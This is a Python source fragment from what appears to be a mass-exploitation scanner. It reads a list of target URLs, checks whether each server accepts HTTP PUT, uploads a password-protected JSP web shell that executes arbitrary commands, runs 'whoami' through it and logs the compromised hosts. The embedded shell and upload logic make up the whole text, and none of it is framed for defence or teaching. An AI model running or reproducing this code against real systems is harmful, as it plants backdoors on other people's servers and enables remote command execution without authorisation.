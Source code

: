```python

    def attack(self):
        body = '''<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
        +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("W3akPassw0rd".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>'''

        while not self.urlList.empty():

            url=self.urlList.get()
            protocol=re.search(r"(https?)\:\/\/(.*?)\/",url+"/").group(1)
            host=re.search(r"(https?)\:\/\/(.*?)\/",url+"/").group(2)
            self.print_lock.acquire()
            print(" \b\b"*100,end="")
            print("\r[about "+str(self.urlList.qsize())+" left]\t"+"trying attack :: "+protocol+"://"+host,end="")
            self.print_lock.release()
            try:

                req = requests.options(url=protocol+"://"+host+"/b4acde76d8daf7a7b3b55670ed4f245c",timeout=10)
                if 'allow' in req.headers and req.headers['allow'].find("PUT")>0 :
                    uploadevil=requests.put(url=protocol+"://"+host+"/b4acde76d8daf7a7b3b55670ed4f245c.jsp/",data=body,timeout=10)
                    if (uploadevil.status_code == 201) or (uploadevil.status_code == 204):
                        execWhoami=requests.get(url=protocol+"://"+host+"/b4acde76d8daf7a7b3b55670ed4f245c.jsp?pwd=W3akPassw0rd&cmd=whoami",timeout=10)
                        #print(execWhoami.text)
                        #whoami=re.search(r"<pre>(.*)<\/pre>",execWhoami.text).group(1)
                        whoami=html.fromstring(execWhoami.text).text_content()
                        self.print_lock.acquire()
                        print(" \b\b"*100,end="")
                        print("\r🍻   "+protocol+"://"+host+"/b4acde76d8daf7a7b3b55670ed4f245c.jsp?pwd=W3akPassw0rd&cmd=whoami\t"+whoami)
                        if self.optput is not None:
                            self.saveResultToFile((protocol+"://"+host+"/b4acde76d8daf7a7b3b55670ed4f245c.jsp",whoami))
                        self.print_lock.release()
                    
                    else:
                        pass
                else:
                    pass
            except:
                pass
                #self.print_lock.acquire()
                #print("\tFailed...   Next...")
                #self.print_lock.release()
        print(" \b\b"*100,end="")

def readUrls(listFile):
    fd=open(listFile,"rb")
    lines=fd.readlines()
    fd.close()

    urlList=queue.Queue()

    for url in lines:
        urlList.put(url.decode("ascii"))
```
